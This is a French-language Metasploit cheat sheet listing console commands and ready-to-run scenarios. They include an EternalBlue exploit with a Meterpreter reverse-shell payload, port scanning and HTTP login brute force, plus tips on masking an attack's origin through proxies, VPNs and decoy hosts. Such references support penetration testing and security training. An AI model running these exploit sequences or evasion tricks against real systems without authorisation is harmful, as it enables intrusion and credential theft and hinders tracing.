 # Metasploit

#### Introduction

Metasploit est un framework open-source pour le développement et l'exécution d'exploits contre des systèmes distants. Il est conçu pour aider les professionnels de la sécurité à identifier et à exploiter les vulnérabilités dans les systèmes informatiques.

#### Installation de Metasploit

**Sous Linux (Debian/Ubuntu)**

```bash
sudo apt update
sudo apt install metasploit-framework
```

#### Démarrage de Metasploit

1.  **Lancer Metasploit Console**

    ```bash
    msfconsole
    ```

    * **Explication** : Lance la console interactive de Metasploit où tu peux exécuter des commandes, rechercher des exploits, et gérer des sessions.

#### Commandes Principales de Metasploit

1.  **Recherche d'exploits**

    ```bash
    search <mot-clé>
    ```

    * **Explication** : Recherche des modules, des exploits, et des payloads correspondant au mot-clé spécifié.
2.  **Affichage des informations sur un exploit**

    ```bash
    info <nom_du_module>
    ```

    * **Explication** : Affiche les informations détaillées sur un module spécifique, y compris les options, les cibles, et les descriptions.


3.  **Sélectionner un exploit**

    ```bash
    use <nom_du_module>
    ```

    * **Explication** : Sélectionne un module d'exploit pour l'utiliser dans Metasploit.


4.  **Configurer les options de l'exploit**

    ```bash
    set <option> <valeur>
    ```

    * **Explication** : Configure les options nécessaires pour l'exploit, comme l'adresse IP cible et les paramètres spécifiques.


5.  **Afficher les options disponibles**

    ```bash
    show options
    ```

    * **Explication** : Affiche les options configurables pour le module actuel.


6.  **Lancer l'exploit**

    ```bash
    exploit
    ```

    * **Explication** : Lance l'exploit avec les options configurées. Peut essayer de pénétrer un système cible en exploitant une vulnérabilité.


7.  **Afficher les sessions ouvertes**

    ```bash
    sessions
    ```

    * **Explication** : Liste toutes les sessions ouvertes avec les systèmes compromis.


8.  **Interagir avec une session**

    ```bash
    sessions -i <id_de_session>
    ```

    * **Explication** : Permet d'interagir avec une session active pour contrôler le système compromis.



#### Modules et Payloads

1.  **Rechercher des modules**

    ```bash
    search <type:exploit> <mot-clé>
    ```

    * **Explication** : Recherche des exploits ou des modules spécifiques en fonction du type et du mot-clé.


2.  **Rechercher des payloads**

    ```bash
    search <type:payload> <mot-clé>
    ```

    * **Explication** : Recherche des payloads disponibles correspondant au mot-clé spécifié.


3.  **Configurer un payload**

    ```bash
    set PAYLOAD <nom_du_payload>
    ```

    * **Explication** : Configure le payload à utiliser avec l'exploit sélectionné.


4.  **Afficher les payloads disponibles**

    ```bash
    show payloads
    ```

    * **Explication** : Affiche une liste des payloads disponibles pour le module d'exploit actuel.



#### Options Avancées

1.  **Utilisation de Metasploit avec des proxys**

    ```bash
    setg Proxies http://<proxy_address>:<port>
    ```

    * **Explication** : Configure Metasploit pour utiliser un proxy HTTP, ce qui peut aider à masquer l'origine des attaques.


2.  **Utilisation de VPN pour masquer l'origine**

    * **Explication** : En utilisant Metasploit via un VPN, tu peux masquer l'origine de ton activité.


3.  **Utilisation de decoy hosts**

    * **Explication** : Lorsque tu réalises des scans, utiliser des hôtes leurres pour masquer l'origine réelle.



#### Exemples de Scénarios

1.  **Exploitation d’une vulnérabilité connue**

    ```bash
    use exploit/windows/smb/ms17_010_eternalblue
    set RHOSTS 192.168.1.10
    set PAYLOAD windows/x64/meterpreter/reverse_tcp
    set LHOST 192.168.1.5
    exploit
    ```

    * **Explication** : Utilise l'exploit EternalBlue pour exploiter une vulnérabilité SMB sur une machine Windows, avec un payload Meterpreter pour la connexion inverse.


2.  **Scan de port et identification du système d’exploitation**

    ```bash
    use auxiliary/scanner/portscan/tcp
    set RHOSTS 192.168.1.10
    run
    ```

    * **Explication** : Utilise un module de scan de ports pour identifier les ports ouverts sur une cible.


3.  **Utilisation de Metasploit pour une attaque par force brute**

    ```bash
    use auxiliary/scanner/http/http_login
    set RHOSTS 192.168.1.10
    set TARGETURI /login
    set USER_FILE /path/to/usernames.txt
    set PASS_FILE /path/to/passwords.txt
    run
    ```

    * **Explication** : Utilise un module de force brute pour tester des combinaisons de noms d’utilisateur et mots de passe sur une interface de connexion HTTP.

